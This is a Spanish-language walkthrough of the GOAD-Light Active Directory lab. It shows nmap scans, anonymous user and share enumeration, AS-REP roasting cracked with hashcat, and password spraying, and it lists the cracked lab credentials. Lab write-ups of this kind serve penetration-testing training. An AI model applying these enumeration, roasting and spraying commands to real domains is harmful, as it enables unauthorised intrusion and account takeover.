

---
Escenarios faltantes:

- Explotación cruzada de bosques (no hay más bosque externo)
    
- Enlace confiable de MSSQL
    
- Algunas vulnerabilidades de equipos antiguos (Zero Logon, PetitPotam sin autenticación, ...)
    
- ESC4, ESC2/3

---

## Servidores

Este laboratorio está compuesto actualmente por 3 máquinas virtuales:

**dominio: sevenkingdoms.local**

- **kingslanding**: DC01 ejecutando Windows Server 2019 (con Windows Defender habilitado por defecto)
    
**dominio: north.sevenkingdoms.local**

- **winterfell**: DC02 ejecutando Windows Server 2019 (con Windows Defender habilitado por defecto)
    
- **castelblack**: SRV02 ejecutando Windows Server 2019 (con Windows Defender **deshabilitado** por defecto)

---
# reconocimiento

```bash
nxc smb 192.168.56.0/24
```



Este comando responde rápido y devuelve una gran cantidad de información útil.

- north.sevenkingdoms.local (2 ip)
    - CASTELBLACK (windows server 2019) (signing false)
    - WINTERFELL (windows server 2019)
- sevenkingdoms.local (1 ip)
    - KINGSLANDING (windows server 2019)

También sabemos que la firma de DC smb de configuración microsoft como verdadera por defecto. Así que todos los dc son los que firman en verdad. (En un entorno seguro la firma debe ser verdadera en todas partes para evitar el relevo de ntlm).



###### setup /etc/hosts and kerberos

```/etc/hosts
# GOAD-Light

192.168.56.10   sevenkingdoms.local kingslanding.sevenkingdoms.local kingslanding
192.168.56.11   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell
192.168.56.22   castelblack.north.sevenkingdoms.local castelblack

```

`sudo nxc smb 192.168.56.1/24 --generate-krb5-file /etc/krb5.conf`

```/etc/krb5.conf
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = SEVENKINGDOMS.LOCAL

[realms]
    SEVENKINGDOMS.LOCAL = {
        kdc = kingslanding.sevenkingdoms.local
        admin_server = kingslanding.sevenkingdoms.local
        default_domain = sevenkingdoms.local
    }

[domain_realm]
    .sevenkingdoms.local = SEVENKINGDOMS.LOCAL
    sevenkingdoms.local = SEVENKINGDOMS.LOCAL
h.sevenkingdoms.local = NORTH.SEVENKINGDOMS.LOCAL
```

## NMAP

```nmap
nmap -Pn -p- -sC -sV -oN full_scan_goad.txt 192.168.56.10-11,22
```

```oN
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-24 03:23 CEST
Nmap scan report for sevenkingdoms.local (192.168.56.10)
Host is up (0.00077s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-24 01:24:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2025-08-08T13:27:45
|_Not valid after:  2026-08-08T13:27:45
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2025-08-08T13:27:45
|_Not valid after:  2026-08-08T13:27:45
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2025-08-08T13:27:45
|_Not valid after:  2026-08-08T13:27:45
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:kingslanding.sevenkingdoms.local
| Not valid before: 2025-08-08T13:27:45
|_Not valid after:  2026-08-08T13:27:45
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SEVENKINGDOMS
|   NetBIOS_Domain_Name: SEVENKINGDOMS
|   NetBIOS_Computer_Name: KINGSLANDING
|   DNS_Domain_Name: sevenkingdoms.local
|   DNS_Computer_Name: kingslanding.sevenkingdoms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-24T01:26:22+00:00
| ssl-cert: Subject: commonName=kingslanding.sevenkingdoms.local
| Not valid before: 2025-08-07T13:08:04
|_Not valid after:  2026-02-06T13:08:04
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2025-08-07T05:58:14
|_Not valid after:  2028-08-06T05:58:14
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49725/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:0E:FF:9C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: KINGSLANDING; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-24T01:26:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: KINGSLANDING, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:0e:ff:9c (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for winterfell.north.sevenkingdoms.local (192.168.56.11)
Host is up (0.00015s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-24 01:24:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2025-08-11T06:32:22
|_Not valid after:  2026-08-11T06:32:22
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2025-08-11T06:32:22
|_Not valid after:  2026-08-11T06:32:22
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2025-08-11T06:32:22
|_Not valid after:  2026-08-11T06:32:22
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sevenkingdoms.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:winterfell.north.sevenkingdoms.local
| Not valid before: 2025-08-11T06:32:22
|_Not valid after:  2026-08-11T06:32:22
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=winterfell.north.sevenkingdoms.local
| Not valid before: 2025-08-07T13:17:17
|_Not valid after:  2026-02-06T13:17:17
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2025-08-07T06:00:55
|_Not valid after:  2028-08-06T06:00:55
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49947/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:6D:AC:62 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: WINTERFELL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-08-24T01:26:24
|_  start_date: N/A
|_nbstat: NetBIOS name: WINTERFELL, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:6d:ac:62 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for castelblack.north.sevenkingdoms.local (192.168.56.22)
Host is up (0.000063s latency).
Not shown: 65516 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   192.168.56.22:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   192.168.56.22:1433: 
|     Target_Name: NORTH
|     NetBIOS_Domain_Name: NORTH
|     NetBIOS_Computer_Name: CASTELBLACK
|     DNS_Domain_Name: north.sevenkingdoms.local
|     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|     DNS_Tree_Name: sevenkingdoms.local
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-24T01:13:55
|_Not valid after:  2055-08-24T01:13:55
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=castelblack.north.sevenkingdoms.local
| Not valid before: 2025-08-07T13:30:03
|_Not valid after:  2026-02-06T13:30:03
| rdp-ntlm-info: 
|   Target_Name: NORTH
|   NetBIOS_Domain_Name: NORTH
|   NetBIOS_Computer_Name: CASTELBLACK
|   DNS_Domain_Name: north.sevenkingdoms.local
|   DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|   DNS_Tree_Name: sevenkingdoms.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-24T01:26:22+00:00
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2025-08-07T06:03:37
|_Not valid after:  2028-08-06T06:03:37
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
65102/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.56.22:65102: 
|     Target_Name: NORTH
|     NetBIOS_Domain_Name: NORTH
|     NetBIOS_Computer_Name: CASTELBLACK
|     DNS_Domain_Name: north.sevenkingdoms.local
|     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|     DNS_Tree_Name: sevenkingdoms.local
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-08-24T01:26:28+00:00; 0s from scanner time.
| ms-sql-info: 
|   192.168.56.22:65102: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 65102
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-24T01:13:55
|_Not valid after:  2055-08-24T01:13:55
MAC Address: 08:00:27:EE:FC:E2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: CASTELBLACK, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:ee:fc:e2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-24T01:26:24
|_  start_date: N/A

Post-scan script results:
| clock-skew: 
|   0s: 
|     192.168.56.22 (castelblack.north.sevenkingdoms.local)
|     192.168.56.10 (sevenkingdoms.local)
|_    192.168.56.11 (winterfell.north.sevenkingdoms.local)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 152.83 seconds
```

## Enumerar los DC de forma anónima.
###### Usuarios
- `netexec`

```bash
nxc smb 192.168.56.11 --users
```



Obtenemos algunos usuarios con la descripción y conseguimos una primera contraseña, ya que a **samwell.tarly** se le configuró su contraseña en la descripción.

- USER: `samwell.tarly`
- PASSWD: `Heartsbane`

- También podríamos recuperar la política de contraseñas antes de intentar un **brute force**.

```bash
nxc smb 192.168.56.11 --pass-pol
```



La política de contraseñas nos indica que si fallamos 5 veces en 5 minutos, se bloquean las cuentas durante 5 minutos.

- `enum4linux`

```bash
enum4linux 192.168.56.11 -U | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" > users.txt
```



- `rpcclient`

El listado anónimo se realiza mediante RPC (**Remote Procedure Call**) en **winterfell (192.168.56.11)**, por lo que también podríamos hacerlo directamente con **rpcclient**.

```bash
rpcclient -U "NORTH\\" 192.168.56.11 -N
```

- `enumdomusers`



- `enumdomgroups`



- Adquirir todos los usuarios del dominio.

```bash
net rpc group members 'Domain Users' -W 'NORTH' -I '192.168.56.11' -U '%'
```


## Listar el **acceso de invitado** en los shares.
###### Shares

```bash
nxc smb 192.168.56.10-23 -u 'a' -p '' --shares
```



- Y encontramos algunos **shares anónimos** con permisos de **READ,WRITE**.

## Usuario pero sin credenciales
###### ASREP-roasting

- `netexec`

```bash
nxc ldap -u users.txt -p '' --asreproast asreproast.out
```



- `impacket-GetNPUsers`

```bash
impacket-GetNPUsers north.sevenkingdoms.local/ -no-pass -usersfile users.txt
```



Obtenemos un **ticket** para **brandon.stark** y vamos a intentar romperlo, ya que el usuario **no requiere pre-autenticación de Kerberos**.

```bash
hashcat -m 18200 asreproast.out /usr/share/wordlists/rockyou.txt --force
```



- USER: `brandon.stark`
- PASSWD: `iseedeadpeople`
### Password Spray

> Warning  
>Cuando realices **password spray**, ¡ten cuidado, puedes **bloquear cuentas**!

Podríamos probar el clásico test **usuario=contraseña**:

```bash
nxc smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
```



También podríamos usar **SprayHound** [https://github.com/Hackndo/sprayhound](https://github.com/Hackndo/sprayhound)

```bash
sprayhound -U users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 --lower
```



Ahora tenemos tres pares de credenciales:

- **`samwell.tarly`:`Heartsbane`** (descripción del usuario)
    
- **`brandon.stark`:`iseedeadpeople`** (AS-REP Roasting)
    
- **`hodor`:`hodor`** (password spray)

# Enumeración utilizando un **usuario**.

Cuando obtienes una cuenta en un **Active Directory**, lo primero que debes hacer siempre es obtener la **lista completa de usuarios**.  
Una vez que la tengas, podrías hacer un **password spray** sobre toda la lista de usuarios (muy a menudo encontrarás otras cuentas con contraseñas débiles, como **usuario=contraseña**, **SeasonYear!**, **SocietyNameYear!** o incluso **123456**).


```bash
impacket-GetADUsers -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```



Con **LDAP query**, recomiendo este artículo con todas las **consultas LDAP útiles para Active Directory**:  
[https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

```bash
ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'
```

